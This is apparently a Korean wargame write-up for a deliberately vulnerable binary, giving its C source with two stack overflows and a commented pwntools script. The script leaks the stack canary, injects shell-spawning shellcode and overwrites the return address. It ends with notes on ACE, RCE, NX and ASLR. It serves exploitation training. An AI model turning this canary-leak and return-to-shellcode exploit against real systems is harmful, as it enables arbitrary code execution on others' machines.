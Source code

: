 #canary #RAO #shellcode 

### 1. 파일 정보

 file ./r2s
./r2s: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=15e9dea98164c863a718820de5bd4261ea48e1d7, not stripped

checksec --file=./r2s
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      Canary found      NX disabled   PIE enabled     No RPATH   No RUNPATH   72 Symbols        No    0               3               ./r2s

### 2. C 소스 코드 분석
``` c
// Name: r2s.c
// Compile: gcc -o r2s r2s.c -zexecstack -fstack-protector

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

int main() {
  char buf[0x50];

  init();

  /*
  buf가 메모리의 어디에 있는지 주소 출력
  __builtin_farme_address() : 현재 함수의 프레임 포인터(rbp) 주소를 반환해 줌.
  buf가 rbp로부터 얼마나 떨어져 있는지 나타냄 → 결과는 스택에서 buf까지의 거리 (바이트 단위)
  */
  printf("Address of the buf: %p\n", buf);
  printf("Distance between buf and $rbp: %ld\n",
         (char*)__builtin_frame_address(0) - buf);
  
  /*
  fflush(stdout) : 표준출력 버퍼를 강제로 비움
  이유는 표준출력은 기본적으로 버퍼링됨(특히 stdout이 터미널이 아닌 경우)
  printf("Input: ");까지만 쳤을 경우, 아직 출력 버퍼에만 있고 사용자에게는 안 보일 수 있음.
  그래서 fflush를 호출하여 지금까지의 출력이 즉시 터미널로 보내지게 함.
  */
  printf("[1] Leak the canary\n");
  printf("Input: ");
  fflush(stdout);

  read(0, buf, 0x100);
  printf("Your input is '%s'\n", buf);

  puts("[2] Overwrite the return address");
  printf("Input: ");
  fflush(stdout);
  gets(buf);

  return 0;
}

```

### 3. 취약점 탐색

buf 의 주소 및 rbp 와 buf 사이의 주소 차이를 알려주고 있다.
``` c
printf("Address of the buf: %p\n", buf);
printf("Distance between buf and $rbp: %ld\n",
        (char*)__builtin_frame_address(0) - buf);
```

스택 버퍼인 buf 에 총 두번의 입력을 받고 있다. 그런데 두 입력 모두에서 오버플로우가 발생한다는 것을 알 수 있다.
``` c
char buf[0x50];

read(0, buf, 0x100);   // 0x50 < 0x100
gets(buf);             // Unsafe function
```

### 4. 익스플로잇 시나리오

카나리 우회
: 첫번째 입력에서 카나리를 먼저 구하고, 이를 두 번째 입력에 사용해야 함.
: 첫번재 입력의 바로 뒤에서 buf를 문자열로 출력해 주기 때문에, buf에 적절한 오버플로우를 발생시키면 카나리 값을 구할 수 있을 것이다.

셸 획득
: 카나리를 구했으면, 이제 두 번째 입력으로 반환 주소를 덮을 수 있다.
: 그런데 바이너리에는 셸을 획득하는 함수(get_shell)가 없다.
: 따라서 셸을 획득하는 코드를 직접 주입하고, 해당 주소로 실행 흐름을 옮겨야 한다.
: 주소를 알고 있는 buf에 셸코드를 주입하고, 해당 주소로 실행 흐름을 옮기면 셸을 획득 할 수 있다.

### 5. 익스플로잇

#### 스택 프래임 정보 수집

``` 
$ python3 ./r2s.py
[+] Starting local process './r2s': pid 8501
[+] Address of buf: 0x7ffe1d28c570
[+] buf <=> sfp: 0x60
[+] buf <=> canary: 0x58
```

``` python
#!/usr/bin/env python3
# Name: r2s.py

from pwn import *

# 익스플로잇 스크립트에서 **값 출력(logging)**을 예쁘게 해주는 역할을 하는 유틸리티 함수
# success함수: pwntools의 함수로, 메시지를 [+] 로 시작. 초록색으로 출력
# hex(m): int타입의 숫자를 16진수 문자열로 변환(예. 0xdeadbeef)
def slog(n, m): return success(': '.join([n, hex(m)]))

p = process('./r2s')
# p = remote('host3.dreamhack.games', 12527)

context.arch = 'amd64'

# [1] Get information about bof

# recvline(): 한줄 전체를 바이트 타입으로 받음.
# 위에서 받은 바이트 문자열의 마지막 문자 \n(newline)을 제외 시킴. 
# 바이트 문자열을 16진수 정수로 바꿈 
## 왜 문자열 말고 정수형으로 변환할까?
## 주소 연산이 불가능 함.
## ROP gadget이나 shellcode 위치 지정 불가능
## 메모리 비교 및 조건 차리에 서 불편
p.recvuntil(b'buf: ')
buf = int(p.recvline()[:-1], 16)
slog('Address of buf', buf)

# C코드에서 $rbp: 다음으로 결과가 나오는 값을 받기 위해 recvline()으로 받음
# 이때 받은 데이터의 마지막에 \n도 함께 받게됨.
# 이것을 떼어내기 위해 split()으로 공백을 떼어내게 되는데 \n은 공백처럼 인식되어서 분리되게 됨.
# 분리된 데이터의 첫번째 값만 추출.
p.recvuntil(b'$rbp: ')
buf2rsp = int(p.recvline().split()[0])
buf2cnry = buf2rsp - 8
slog('buf <=> sfp', buf2rsp)
slog('buf <=> canary', buf2cnry)
```


#### 카나리 릭
![](https://dreamhack-lecture.s3.amazonaws.com/media/ebaccb041e9c0f17784898d04ce56dd3bb1ac57aa220dfdc4c97cfce6ac54ea3.png)
스택 프래임에 대한 정보를 수집했으므로, 이를 활용하여 카나리를 구해야 함.
buf와 카나리 사이를 임의의 값으로 채우면, 프로그램에서 buf를 출력할 때 카나리가 같이 출력될 것임.

```
$ python3 ./r2s.py
[+] Starting local process './r2s': pid 8564
[+] Address of buf: 0x7ffe58a8d740
[+] buf <=> sfp: 0x60
[+] buf <=> canary: 0x58
[+] Canary: 0x40e736d41cd76400
```

``` python
# [2] Leak canary value

# +1을 해 준 이유
# 스택 카나리의 첫 바이트는 항상 \x00이 들어가 있음.
# 이것을 'A'로 덮어씌워서 카나리의 7바이트값을 확인할 수 있게 됨
payload = b'A' * (buf2cnry + 1)

# 'Input:' 프롬프트가 출력될때까지 기다린 다음에 payload 전송
# payload가 프로그램에 전달되어 스택 위에 있는 카나리 값이 노출될 수 있게 유도
# recvuntil(payload): 우리가 보낸 입력을 프로그램이 출력할 때까지 기다림
# p가 payload를 출력할 때까지 데이터를 수신함.
# 왜???? 그 다음에 오는 메모리 누출값(예. 카나리)를 정확히 받기 위해.
# ==> payload 전송 직후에 바로 recv()를 쓰면,
# 네트워크 통신이나 로컬 파이프에서는 입력한 payload도 섞여서 출력에 포함되기 때문에,
# 그걸 먼저 걸러내야 그 뒤에 나오는 canary 값을 정확히 추출할 수 있어요.

# recvn(7)로 다음의 7바이트를 받아들임.
# 맨 앞에 \x00을 붙여서 총 8바이트로 만든 후 u64()로 64비트 리틀 엔디언 정수로 변환
# 예시.
# p.recvn(7) = b'\xde\xad\xbe\xef\x11\x22\x33'
# b'\x00' + ... = b'\x00\xde\xad\xbe\xef\x11\x22\x33'
# u64(...) → 0x332211efbeadde00
# u64를 쓰는 이유????
# 여기서 u64()는 이 8바이트를 정수로 바꿔줘야 우리가 나중에 스택 카나리를 우회하거나 비교할 수 있어.
# 즉, 바이트열을 사람이 쓸 수 있는 정수값으로 변환하는 게 목적!
# p64 : 정수를 바이트로 만드는 함수.
p.sendafter(b'Input:', payload)
p.recvuntil(payload)
cnry = u64(b'\x00' + p.recvn(7))
slog('Canary', cnry)
```

#### 익스플로잇

카나리를 구했으므로 이제 buf에 셸코드를 주입하고, 카나리를 구한 값으로 덮은 뒤, 반환 주소 (RET)를 buf로 덮으면 셸코드가 실행되게 할 수 있다.

![](https://dreamhack-lecture.s3.amazonaws.com/media/7769fa0eaf08ea7db1bd568d23f5a5cd057afc14381665542dd3580366f12f90.png)

``` python
# [3] Exploit

# shellcraft.sh()는 쉘코드(쉘을 여는 어셈블리 코드)를 생성함
# asm(...)은 그 어셈블리 코드를 **기계어(bytecode)**로 변환해 줌
# sh.ljust(buf2cnry, b'A') :
# shellcode를 buf2cnry 길이만큼 맞추기 위해 뒤에 여백부분을 'A'로 패딩을 넣음
# 즉, buf부터 canary 전까지 정확히 채움
# [ shellcode ] + [ 패딩 ] + [ canary ] + [ SFP ] + [ RIP ]
# 
# p.sendlineafter(b'Input:', payload)
# "Input:" 메시지가 뜨면 payload를 전송
# sendline은 마지막에 \n 자동으로 붙여줌 (중요: gets()/read()는 이걸로 입력 끝 감지함)
# C코드에서 Input 다음에 gets()함수로 데이터를 받는데 gets()는 \n까지 포함해서 데이터를 넘긴다.
# 해서, sendlineafter를 사용한 것임.
sh = asm(shellcraft.sh())
payload = sh.ljust(buf2cnry, b'A') + p64(cnry) + b'B' * 0x8 + p64(buf)
# gets() receives input until '\n' is received
p.sendlineafter(b'Input:', payload)

p.interactive()
```

### 정리

이 공격 기법은 다음 조건이 만족하면 사용할 수 있다.
1. 코드를 삽입할 수 있는 임의의 버퍼가 있을 때, 해당 버퍼의 주소를 알거나, 구할 수 있다.
2. 실행 흐름을 옮길 수 있다 <- 스택 버퍼 오버플로우도 여기 포함된다.

##### ACE (Arbitrary Code Execution)
임의의 코드를 실행하는 것

##### RCE (Remote Code Execution)
원격 서버를 대상으로 ACE를 수행하는 것
Return to Shellcode 는 RCE 기법중 하나.

RCE는 서버를 대상으로 한 공격들 중, 매우 파괴적인 공격에 속하며, 컴퓨터 과학자들은 서버에서 RCE의 위험을 줄이기 위해 여러 보호 기법을 고안하고 있다.

NX(Not eXecutable)
: 코드 섹션 외의 모든 섹션에 실행 권한을 없앰.

ASLR(Address Space Layout Randomization)
: 바이너리를 실행할 때마다 임의의 주소에 스택과 힙을 할당.